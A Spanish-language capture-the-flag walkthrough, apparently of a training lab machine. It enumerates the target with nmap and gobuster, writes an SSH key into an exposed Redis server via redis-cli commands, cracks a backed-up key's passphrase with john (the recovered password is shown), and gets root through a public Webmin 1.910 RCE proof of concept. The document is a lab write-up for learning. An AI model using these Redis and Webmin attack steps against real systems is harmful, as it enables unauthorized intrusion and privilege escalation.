# Scan
Empezamos realizando un escaneo de nmap ``nmap -p- -sV -sC -T 5 --min-rate=5000 10.129.2.1 -oN scan``

Ahora vamos a empezar con una enumeración de directorios usando ``gobuster dir -u http://10.129.2.1 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 50``

En el puerto 10000 vemos un panel de webmin

## Redis
Basándonos en este post https://book.hacktricks.wiki/en/network-services-pentesting/6379-pentesting-redis.html?highlight=redis-cli#ssh
Nos conectamos a redis y después de enumerar intentamos subir una clave ssh para conectarnos.
```bash
#Configuramos el directorio de redis:
redis-cli -h 10.129.2.1
config set dir /var/lib/redis/.ssh
config get dir
#Ahora generamos y subimos la clave 
ssh-keygen -t rsa
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > spaced_key.txt
cat spaced_key.txt | redis-cli -h 10.129.2.1 -x set ssh_key

```

Para conectarnos por ssh usamos la clave id_rsa que generamos previamente ``ssh redis@10.129.2.1 -i id_rsa``

## Privesc  - Redis User
Subimos linpeas a la maquina para escanearla en busca de vectores de ataque para escalar privilegios.
Este escaneo nos encuentra la siguiente id_rsa en ``/opt/id_rsa.bak``

### Matt
Nos intentemos conectar con la id_rsa.bak para ello la metemos en un archivo y le damos permisos 600 pero nos pide contraseña.

Entonces vamos a intentar romperla con john:

Ahora tenemos el usuario matt su id_rsa y su contraseña(computer2008) volvemos a intentar conectarnos:

Esto sigue sin dejarnos conectar.
Entonces probamos desde redis a movernos de usuario con su lo que resulta efectivo y ahora ya podemos leer la flag de user.

### Root 
Ahora vamos a intentar conectarnos al panel de webmin con las credenciales de Matt y vemos el panel de webmin y su version 1.910:

Buscando si hay algún exploit conocido para webmin 1.910 encontramos la siguiente POC https://github.com/NaveenNguyen/Webmin-1.910-Package-Updates-RCE y al ejecutarla adquirimos una shell como root

Ahora realizamos el tratamiento de la tty y en /root encontramos la flag
